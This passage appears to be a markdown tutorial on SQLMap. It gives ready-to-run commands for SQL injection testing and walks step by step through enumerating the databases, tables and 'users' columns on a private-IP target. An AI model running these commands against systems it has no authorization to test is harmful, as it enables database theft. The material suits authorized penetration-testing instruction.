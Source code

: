 #### Increase the Level and Risk for More Comprehensive Testing:

```bash
sqlmap -u "http://example.com/index.php?id=1" --level 3 --risk 2
```

#### Test All Parameters Automatically:

```bash
sqlmap -u "http://example.com/index.php?id=1&name=test&age=20" --batch --random-agent --dbs
```

- SQLMap will iterate through each parameter and test for vulnerabilities.

## Practical Example

To better understand how SQLMap works in a real-world scenario, here is a practical example demonstrating the steps involved in enumerating and extracting data from a target database.

### Step-by-Step Guide

Given the IP address of the target, you need to adjust the SQLMap command to point to the correct target URL. Here’s how to adapt your command:

**Target URL**: http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example

**Vulnerable Parameter**: param

#### Enumerate Databases

This command will enumerate all databases on the target server.

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent --dbs -p param
```

#### Select a Target Database

After identifying the databases, select the relevant database (e.g., example_db).

#### Enumerate Tables

List all tables in the selected database.

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent -D example_db --tables -p param
```

#### Enumerate Columns

Choose a table, such as users, and list all columns.

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent -D example_db -T users --columns -p param
```
